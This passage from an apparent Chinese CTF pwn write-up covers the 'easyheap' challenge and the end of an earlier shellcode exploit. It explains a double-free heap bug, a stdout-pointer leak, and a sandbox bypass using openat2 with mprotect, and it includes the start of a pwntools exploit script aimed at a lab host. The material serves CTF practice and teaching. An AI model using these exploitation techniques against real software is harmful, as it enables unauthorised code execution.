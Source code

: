 ```python
log.debug(len(shellcode3))
p.send(shellcode2)
p.send(shellcode3)


p.interactive()
```

### 3.easyheap
逆向不难，就是ida抽风把他分两个变量了搞了一会
```c
00000000 chunk           struc ; (sizeof=0x10, mappedto_8)
00000000                                         ; XREF: .bss:chunks/r
00000000 pointer         dq ?                    ; offset
00000008 size            dq ?                    ; XREF: add+130/o
00000008                                         ; edit+BC/o ...
00000010 chunk           ends
```
漏洞在于一个chunk可以delete多次而不判断size。构造两个指针指向同一个堆块再free一个，就可以通过另一个泄露地址。
由于fgets截断，很难直接通过堆泄露environ，这里采用修改_IO_2_1_stdout的指针来泄露。沙箱关了open和openat，其实也导致了不能getshell。这里用openat2替代，配合mprotect执行shellcode。
（2.39打house，打栈迁移的板子真难找啊）
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=process('./pwn')
p=remote('192.168.211.1',2952)
libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p,'b *$rebase(0x191F)')
#pause()
def add(idx,size,data):
    p.recvuntil(b': ')
    p.sendline(b'1')
    p.recvuntil(b': ')
    p.sendline(str(idx).encode())
    p.recvuntil(b':')
    p.sendline(str(size).encode())
    p.recvuntil(b':')
    p.send(data)

def delete(idx):
    p.recvuntil(b': ')
    p.sendline(b'4')
    p.recvuntil(b':')
    p.sendline(str(idx).encode())

def show(idx):
    p.recvuntil(b': ')
    p.sendline(b'3')
    p.recvuntil(b':')
    p.sendline(str(idx).encode())
    p.recvuntil(b': ')
    s=p.recvline()[:-1]
    return s

def edit(idx,data):
    p.recvuntil(b': ')
    p.sendline(b'2')
    p.recvuntil(b': ')
    p.sendline(str(idx).encode())
    p.recvuntil(b': ')
    p.send(data)
```
